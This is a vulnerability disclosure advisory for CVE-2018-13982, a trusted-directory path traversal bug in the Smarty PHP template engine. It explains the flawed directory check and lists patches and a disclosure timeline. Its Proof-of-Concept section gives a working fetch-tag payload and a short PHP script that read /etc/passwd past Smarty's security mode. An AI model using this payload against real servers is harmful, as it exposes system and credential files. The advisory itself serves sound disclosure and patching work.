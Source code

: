 # Smarty Trusted-Directory Bypass via Path Traversal #

## Vulnerability Overview ##

Smarty 3.1.32 or below is prone to a path traversal vulnerability due
to insufficient template code sanitization. This allows attackers
controlling the executed template code to bypass the trusted directory
security restriction and read arbitrary files.

* **Identifier**            : SBA-ADV-20180420-01
* **Type of Vulnerability** : Path Traversal
* **Software/Product Name** : [Smarty](https://www.smarty.net/)
* **Vendor**                : Smarty
* **Affected Versions**     : 3.1.32 and probably prior
* **Fixed in Version**      : 3.1.33
* **CVE ID**                : CVE-2018-13982
* **CVSSv3 Vector**         : CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N
* **CVSSv3 Base Score**     : 8.6 (High)

## Vendor Description ##

> Smarty is a template engine for PHP, facilitating the separation of
> presentation (HTML/CSS) from application logic. This implies that PHP
> code is application logic, and is separated from the presentation.

Source: <https://www.smarty.net/about_smarty>

## Impact ##

An attacker controlling the executed template code can read arbitrary
files accessible by the webserver by exploiting the vulnerability
documented in this advisory. Sensitive data such as database credentials
might get exposed through this attack.

We recommend upgrading to version 3.1.33 or newer.

## Vulnerability Description ##

Smarty allows restricting which paths are accessible paths during
template evaluation. This feature is implemented in the
`Smarty_Security` class and is enabled via the method `enableSecurity`.
However, the trusted directory check implemented in the method
`isTrustedResourceDir` of the `Smarty_Security` class is vulnerable to
path traversal.

The method `isTrustedResourceDir` first builds a list of allowed
directories in `$filepath` and then relies on the `_checkDir` method
to check if the requested resource dir is trusted. In version 0.3.31
neither `isTrustedResourceDir` nor `_checkDir` avoid path traversal:

```php
public function isTrustedResourceDir($filepath, $isConfig = null)
{
    [...]
    $this->_resource_dir = $this->_checkDir($filepath, $this->_resource_dir);
    return true;
}

private function _checkDir($filepath, $dirs)
{
    $directory = dirname($filepath) . DIRECTORY_SEPARATOR;
    $_directory = array();
    while (true) {
        // remember the directory to add it to _resource_dir in case we're successful
        $_directory[ $directory ] = true;
        // test if the directory is trusted
        if (isset($dirs[ $directory ])) {
            // merge sub directories of current $directory into _resource_dir to speed up subsequent lookup
            $dirs = array_merge($dirs, $_directory);
            return $dirs;
        }
        // abort if we've reached root
        if (!preg_match('#[\\\/][^\\\/]+[\\\/]$#', $directory)) {
            break;
        }
        // bubble up one level
        $directory = preg_replace('#[\\\/][^\\\/]+[\\\/]$#', DIRECTORY_SEPARATOR, $directory);
    }
    // give up
    throw new SmartyException("directory '{$filepath}' not allowed by security setting");
}
```

In version 0.3.32 `_checkDir` calls `_realpath` before checking if the
requested resource is trusted. However, the custom realpath method is
broken and allows path traversal at least on Unix systems.

For example, the fetch tag uses the `isTrustedResourceDir` method to
check if a user-specified path is allowed to read.

## Proof-of-Concept ##

An attacker can exploit this vulnerability by using the fetch tag:

```php
{fetch file="/var/www/templates/../../../../../etc/passwd"}
```

Full example:

```php
<?php
require_once "vendor/autoload.php";

$smarty = new Smarty;
$smarty->enableSecurity();
// Fails
//$smarty->display('eval:{fetch file="/etc/passwd"}');
// Works
$smarty->display('eval:{fetch file="'.addslashes(getcwd()).'/templates/../../../../../etc/passwd"}');
```

## Timeline ##

* `2018-04-20`: identification of vulnerability in version 3.1.31
* `2018-04-23`: initial vendor contact
* `2018-04-23`: disclosed vulnerability to vendor
* `2018-04-24`: vendor acknowledged vulnerability and released version 3.1.32
* `2018-04-25`: notified vendor about incomplete fix
* `2018-04-26`: vendor fixed vulnerability
* `2018-07-10`: request CVE from MITRE
* `2018-07-11`: MITRE assigned CVE-2018-13982
* `2018-09-12`: vendor released fix in version 3.1.33
* `2018-09-17`: public release

## References ##

* Changelog: <https://github.com/smarty-php/smarty/commit/bcedfd6b58bed4a7366336979ebaa5a240581531>
* Patches:
  * <https://github.com/smarty-php/smarty/commit/8d21f38dc35c4cd6b31c2f23fc9b8e5adbc56dfe>
  * <https://github.com/smarty-php/smarty/commit/f9ca3c63d1250bb56b2bda609dcc9dd81f0065f8>
  * <https://github.com/smarty-php/smarty/commit/2e081a51b1effddb23f87952959139ac62654d50>
  * <https://github.com/smarty-php/smarty/commit/c9dbe1d08c081912d02bd851d1d1b6388f6133d1>

## Credits ##

* David Gnedt ([SBA Research](https://www.sba-research.org/))
* Thomas Konrad ([SBA Research](https://www.sba-research.org/))
